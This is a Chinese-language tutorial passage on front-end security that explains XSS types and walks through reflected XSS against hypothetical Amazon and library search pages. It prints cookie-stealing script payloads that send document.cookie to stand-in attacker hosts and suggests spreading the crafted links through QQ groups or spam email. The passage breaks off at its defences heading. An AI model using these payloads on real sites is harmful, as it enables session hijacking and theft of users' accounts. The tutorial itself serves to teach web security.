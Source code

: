 ```yaml
---

title: 前端安全：XSS和CSRF
tags: ['js', '安全']

---
```


## XSS攻击

XSS（cross-site scripting跨域脚本攻击）攻击是最常见的WEB攻击之一，其重点是“**跨域**”和“**客户端执行**”。

XSS攻击分为三种

* Reflected XSS
* Stored XSS
* DOM-based or loacl XSS



### Reflected XSS

基于反射的XSS攻击，主要依靠站点服务端返回脚本，在客户端触发执行从而发起Web攻击。

##### 例子，做个假设：

1. 当亚马逊在搜索书籍，搜不到书的时候显示提交的名称。

2. 在搜索框搜索内容，填入`<script>alert('handsome boy')</script>`, 点击搜索。

3. 当前端页面没有对返回的数据进行过滤，直接显示在页面上， 这时就会alert那个字符串出来。

4. 进而可以构造获取用户cookies的地址，通过QQ群或者垃圾邮件，来让其他人点击这个地址：
`http://www.amazon.cn/search?name=<script>document.location='http://xxx/get?cookie='+document.cookie</script>`

##### 例子：

对于一个图书馆网站book.com

假设右上角有一个搜索书籍的地方，可以按书名搜索书籍（book.com/search?name=时间简史），于是弹出《时间简史》的相关信息。

但是如果输入`<script>alert('没有书开个毛线书店啊')</script>`，假设这个图书馆站点没有对数据做任何过滤，而且会原封不动地把用户输入的数据展示回来，那么返回的页面自然也会返回这段脚本，从而执行它。

既然要做攻击，我们就要获取用户的数据，要获取数据自然要把信息传回我们的服务器（假设接收信息的地址是http://vajoy/get），那么可以这样写：
`<script>document.location='http://vajoy/get?cookie='+document.cookie</script>`

不过这样收到的总是我们自己的数据，我们要收集的应该是别人的cookie信息。

所以之后便可以通过QQ群，或者通过群发垃圾邮件，来让其他人点击这个地址：
`book.com/search?name=<script>document.location='http://vajoy/get?cookie='+document.cookie</script>`

这样就可以依靠站点服务端返回脚本，在客户端触发执行从而发起WEB攻击，进行Reflected XSS攻击。

#### 开发安全措施
